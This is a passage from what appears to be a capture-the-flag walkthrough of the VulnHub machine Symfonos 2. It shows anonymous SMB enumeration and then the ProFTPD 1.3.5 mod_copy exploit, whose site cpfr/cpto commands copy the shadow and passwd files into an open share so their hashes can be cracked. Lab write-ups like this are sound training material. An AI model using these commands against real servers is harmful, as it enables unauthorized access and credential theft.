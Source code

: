 Looks like we have an open SMB share called 'anonymous', so let's see what we have to work with
there:
```
# smbclient -W WORKGROUP -N \\\\10.0.100.28\\anonymous
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul 18 10:30:09 2019
  ..                                  D        0  Thu Jul 18 10:29:08 2019
  backups                             D        0  Thu Jul 18 10:25:17 2019

                19728000 blocks of size 1024. 16311600 blocks available
smb: \> cd backups
smb: \backups\> ls
  .                                   D        0  Thu Jul 18 10:25:17 2019
  ..                                  D        0  Thu Jul 18 10:30:09 2019
  log.txt                             N    11394  Thu Jul 18 10:25:16 2019

                19728000 blocks of size 1024. 16311600 blocks available
smb: \backups\> get log.txt
getting file \backups\log.txt of size 11394 as log.txt...
```

Taking a brief look over the log.txt file shows us that it contains the configuration files for
ProFTPD and Samba, but there is a very important detail at the very top of that log.txt file that
is easy to miss:
```bash
root@symfonos2:~# cat /etc/shadow > /var/backups/shadow.bak
```

For those who do not know, the shadow file is where hashed password data is stored; now we just
need to pull that file... Since we have ProFTPD and Samba for file transfer methods, let's take a
closer look at those. ProFTPD is version 1.3.5 and Samba is version 4.5.16-Debian. Searches for
Samba exploits for that version do not yield anything, but a search of the Exploit-DB for this
version of ProFTPD brings up a [file copy][4] vulnerability.

Since I know that the purpose of this box is to ensure we understand how the vulnerabilities we are
using actually work, I took a close look at this vulnerability and just executed the necessary
commands manually. Please see the original posting on Exploit-DB linked above for details about
the exploit, as I will only be pasting the commands I used below. _NOTE: Yes,
I am aware the exploit allows for the implanting of a payload on the web server, but since the
shadow file was so readily available I thought I'd see if I could crack some passwords._
```
site cpfr /var/backups/shadow.bak
350 File or directory exists, ready for destination name
site cpto /home/aeolus/share/shadow.bak
250 Copy successful
site cpfr /etc/passwd
350 File or directory exists, ready for destination name
site cpto /home/aeolus/share/passwd.bak
250 Copy successful
```

Now when we check the anonymous share, we see our two copied files:  

![Steal those passwords](/assets/images/symfonos2-smb-new-files.png)  


[1]: /disclaimer/
[2]: https://www.vulnhub.com/entry/symfonos-2,331/
[3]: https://twitter.com/@Zayotic
[4]: https://www.exploit-db.com/exploits/36742
[5]: https://www.exploit-db.com/exploits/47044